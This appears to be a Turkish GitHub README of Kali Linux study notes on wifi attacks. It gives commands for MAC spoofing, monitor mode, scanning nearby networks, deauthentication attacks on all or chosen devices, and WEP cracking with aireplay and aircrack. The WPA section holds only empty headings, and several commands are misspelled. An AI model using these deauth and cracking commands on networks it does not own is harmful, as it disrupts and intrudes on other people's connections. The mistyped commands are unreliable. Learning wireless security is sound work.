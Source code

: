 # Cyber Security
- [1-VPN DNS MAC](#1-VPN-DNS-MAC)
  - [VPN Book](#VPN-Book)
  - [Kali DNS Ayarları Değiştirme](#Kali-DNS-Ayarları-Değiştirme)
  - [DNS Sızıntı Testi](#DNS-Sızıntı-Testi)
  - [MAC Adresi Değiştirme](#MAC-Adresi-Değiştirme)
- [2-Monitör Mod ve Manage Mod](#2-Monitör-Mod-ve-Manage-Mod)
- [3-Çevredeki Modemleri Bulma](#3-Çevredeki-Modemleri-Bulma)
- [4-Deauth Saldırısı Yapma](#4-Deauth-Saldırısı-Yapma)
  - [Ağdaki Cihazların MAC Adreslerini Görme](#Ağdaki-Cihazların-MAC-Adreslerini-Görme)
  - [Ağdaki Cihazlara Deauth Saldırısı Yapma](#Ağdaki-Cihazlara-Deauth-Saldırısı-Yapma)
    - [Ağdaki Bütün Cihazlara Saldırı](#Ağdaki-Bütün-Cihazlara-Saldırı)
    - [Ağdaki Belirli Cihaza Saldırı](#Ağdaki-Belirli-Cihaza-Saldırı)
- [5-Wifi Parola Kırma](#5-Wifi-Parola-Kırma)
  - [WEB Parola Kırma](#WEB-Parola-Kırma)
  - [VPA ve VPA2 Parola Kırma](#VPA-ve-VPA2-Parola-Kırma)
    - [Handshake Yakalama](#Handshake-Yakalama)
    - [Wordlist Oluşturma](#Wordlist-Oluşturma)
    - [Parola Kırma](#Parola-Kırma)



# 1-VPN DNS MAC 

VPN (Virtual Personal Network)

DNS (Domain Name Server)

```iwconfig``` -> bağlı olduğumuz wifi ile ilgili bilgileri detaylı olarak gösterir

### VPN Book

```wwww.vpnbook.com``` kali içine VPN indirmemizi sağlar

```openvpn vpnadı``` -> vpn dosyasını açar

```service network-manager restart``` -> internet sunucularını resetler

### Kali DNS Ayarları Değiştirme

```nano /etc/dhcp/dhclient.conf``` içindeki ```prepentt name servers ```değiştirmemiz gerekir

Google DNS-> 8.8.8.8 ya da 8.4.4.8
Cloudflare -> 1.1.1.1. ya da 1.0.0.1

### DNS Sızıntı Testi 

www..dnsleaktest.com

### MAC Adresi Değiştirme

> ### 1.Yöntem

```macchanger```ile mac adresimizi değiştirebiliriz ya da

> ### 2.Yöntem
```
ifconfig wlan0 down

ifconfig wlan hw ether XX:XX:XX:XX:XX:XX  İstediğimiz MAC adresini yapmamızı sağlar

ifconfig wlan0 up
```

# 2-Monitör Mod ve Manage Mod

Wifi adaptörümüzü bilgisayarımıza bağlıyoruz, daha sonra kalimizi monitör moda almamız gerekiyor

> ### 1.Yöntem

```airmon -ng start wlan0```-> interneti monitör moda alır !! Monitör modda iken internete bağlanamayız sadece bağlı olmadığımız ağların bilgilerini elde edebiliriz

```airmon -ng stop wlan0``` -> interneti manage moda alır 

> ### 2.Yöntem
```
ifconfig wlan0 down

ifconfig wlan0 mode monitor

ifconfig wlan0 up
```

# 3-Çevredeki Modemleri Bulma

```airopdump -ng wlan0mon``` -> Çevredeki Modemleri Bulur

```CTRL + X ile işlemi sonlandırırız```

```
* pwr -> - Olarak ne kadar büyükse modem bize o kadar yakındır
* Data -> O ağa kaç cihazın bağlı olduğunu gösterir
* CH -> Hangi kanalda olduğunu gösterir
* ENC -> Şifreleme işlemi bilgisi
```

# 4-Deauth Saldırısı Yapma

### Ağdaki Cihazların MAC Adreslerini Görme
```
airodump -ng --channel X (kanal numarası) --bssid XX:XX:XX:XX:XX:XX (MAC adresi) --write airodumptest (Sonuçları yazdıracağımız 
dosya adı) wlan0
```
### Ağdaki Cihazlara Deauth Saldırısı Yapma

> ### Ağdaki Bütün Cihazlara Saldırı
```
aireplay -ng --deauth A -a XX:XX:XX:XX:XX:XX wlan0mon
```

> ### Ağdaki Belirli Cihaza Saldırı
```
aireplay -ng --deauth A -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan0mon
```

```
* A: Gönderilecek paket sayısı, sayı büyüdükçe ağda düşme süresi artar
* -a:  Ağın MAC adresi
* -c:  Saldırı Yapılacak Cihazın MAC adresi
```

# 5-Wifi Parola Kırma 

### WEB Parola Kırma 

Fakeauth saldırısı yapıyoruz ağdan birisi düşüp tekrar bağlanırsa handshake yakalamamız kolaylaşır

```aireplay -ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h YY:YY:YY:YY:YY:YY wlan0mon```

```aireplay -ng --arpreplay -b XX:XX:XX:XX:XX:xX -h YY:YY:YY:YY:YY:YY wlan0mon``` belirlenen cihaza IV yollamamızı sağlar

Eğer Ağda Yeteri Kadar Cihaz Yoksa
* fakeauuth yolla
* arpreplay çalıştır
* aircrack -ng çalıştır

```aircrack -ng airodumptest.cap (Tarama Sırasında Yazdırdığımız Dosya)``` 

```**192.168.1.1** modeminizin ara yüzüne giriş yaparsınız```

### VPA ve VPA2 Parola Kırma

> ### Handshake Yakalama
> ### Wordlist Oluşturma
> ### Parola Kırma
